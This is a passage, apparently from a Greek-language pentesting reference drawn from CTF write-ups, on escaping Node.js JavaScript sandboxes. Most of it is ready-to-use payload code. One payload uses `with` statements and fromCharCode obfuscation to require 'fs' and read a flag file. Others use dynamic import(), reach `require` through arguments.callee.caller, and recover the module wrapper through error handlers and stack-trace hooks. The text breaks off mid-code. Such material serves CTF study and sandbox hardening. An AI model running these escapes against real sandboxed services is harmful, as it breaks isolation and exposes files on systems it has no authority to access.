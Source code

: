 ```javascript
with(String)with(f=fromCharCode,k=f(102,115),n=f(102,108,97,103,46,116,120,116),process)with(mainModule)with(require(k))return(String(readFileSync(n)))

//Final solution
with(
/with(String)
with(f=fromCharCode,k=f(102,115),n=f(102,108,97,103,46,116,120,116),process)
with(mainModule)
with(require(k))
return(String(readFileSync(n)))
/)
with(this)
with(constructor)
constructor(source)()

// For more uses of with go to challenge misc/CaaSio PSE in
// https://blog.huli.tw/2022/05/05/en/angstrom-ctf-2022-writeup-en/#misc/CaaSio%20PSE
```
Αν **όλα είναι μη καθορισμένα** πριν την εκτέλεση μη αξιόπιστου κώδικα (όπως σε [**αυτή την αναφορά**](https://blog.huli.tw/2022/02/08/en/what-i-learned-from-dicectf-2022/#miscx2fundefined55-solves)) είναι δυνατόν να δημιουργηθούν χρήσιμα αντικείμενα "από το τίποτα" για να εκμεταλλευτούμε την εκτέλεση αυθαίρετου μη αξιόπιστου κώδικα:

* Χρησιμοποιώντας import()
```javascript
// although import "fs" doesn’t work, import('fs') does.
import("fs").then(m=>console.log(m.readFileSync("/flag.txt", "utf8")))
```
* Πρόσβαση στο `require` έμμεσα

[Σύμφωνα με αυτό](https://stackoverflow.com/questions/28955047/why-does-a-module-level-return-statement-work-in-node-js/28955050#28955050) τα modules περιτυλίγονται από το Node.js μέσα σε μια συνάρτηση, όπως αυτό:
```javascript
(function (exports, require, module, __filename, __dirname) {
// our actual module code
});
```
Επομένως, αν από εκείνο το module μπορούμε να **καλέσουμε μια άλλη συνάρτηση**, είναι δυνατόν να χρησιμοποιήσουμε `arguments.callee.caller.arguments[1]` από εκείνη τη συνάρτηση για να αποκτήσουμε πρόσβαση στο **`require`**:

{% code overflow="wrap" %}
```javascript
(function(){return arguments.callee.caller.arguments[1]("fs").readFileSync("/flag.txt", "utf8")})()
```
{% endcode %}

Με παρόμοιο τρόπο με το προηγούμενο παράδειγμα, είναι δυνατόν να **χρησιμοποιήσετε διαχειριστές σφαλμάτων** για να αποκτήσετε πρόσβαση στο **wrapper** της μονάδας και να αποκτήσετε τη **`require`** συνάρτηση:
```javascript
try {
null.f()
} catch (e) {
TypeError = e.constructor
}
Object = {}.constructor
String = ''.constructor
Error = TypeError.prototype.__proto__.constructor
function CustomError() {
const oldStackTrace = Error.prepareStackTrace
try {
Error.prepareStackTrace = (err, structuredStackTrace) => structuredStackTrace
Error.captureStackTrace(this)
this.stack
```